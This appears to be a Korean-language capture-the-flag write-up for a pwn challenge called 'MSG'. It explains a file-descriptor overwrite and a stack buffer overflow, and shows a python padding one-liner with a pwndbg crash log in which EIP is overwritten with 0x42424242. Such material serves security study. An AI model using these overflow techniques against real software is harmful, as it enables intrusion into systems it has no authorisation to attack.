

# MSG Write-up

### 취약점1



취약점이 발생하는 함수입니다. 사용자의 입력으로 fd를 조작할 수 있습니다. (코드를 분석해보면 알겠지만 파일을 처음 4바이트는 메시지의 길이를 의미하게 됩니다.)

### 취약점2

```
root@inj3ct:~/tmp/sctf# python -c 'print "A"*276+"B"*4' > out

pwndbg> r
Starting program: /root/tmp/sctf/msg_patched 
1. New message
2. Change message
3. Load message
4. Exit
3
Input msg ID : 
out
msg: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB


Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[──────────────────────────────────REGISTERS───────────────────────────────────]
*EAX  0xffffffff
 EBX  0x0
*ECX  0xf7ffb940 ◂— 0xf7ffb940
*EDX  0xffffffc0
*EDI  0xf7fc8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
*ESI  0xf7fc8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
*EBP  0x41414141 ('AAAA')
*ESP  0xffffd650 ◂— 0xa /* '\n' */
*EIP  0x42424242 ('BBBB')
[────────────────────────────────────DISASM────────────────────────────────────]
Invalid address 0x42424242
```

위처럼 오버플로우 버그가 발생합니다.

### 설명

1. dummy를 252(0x108-0xC) byte만큼 넣은 후, fd 값을 2(stderr)로 덮어 씌운다.
2. 뒤에서 stderr이 close되서 다음부터 파일을 열게 되면 fd의 값은 2부터 쌓인다.
3. s에 특수문자가 포함되어 있다면 새롭게 열린 파일에 "This is ~~~ : [input]\n"이 쓰인다. 
4. 분석해보면 알겠지만 이 프로그램에서 파일을 읽고 쓰는 데에 있어서 파일의 처음 4바이트는 데이터의 길이를 알려주는 포멧이다. 이를 통해 오버플로우를 발생시킬 수 있다.
5. loadMsg 함수로 넘어가면 파일의 첫 276바이트 이후의 4바이트가 EIP로 덮어쓰인다.
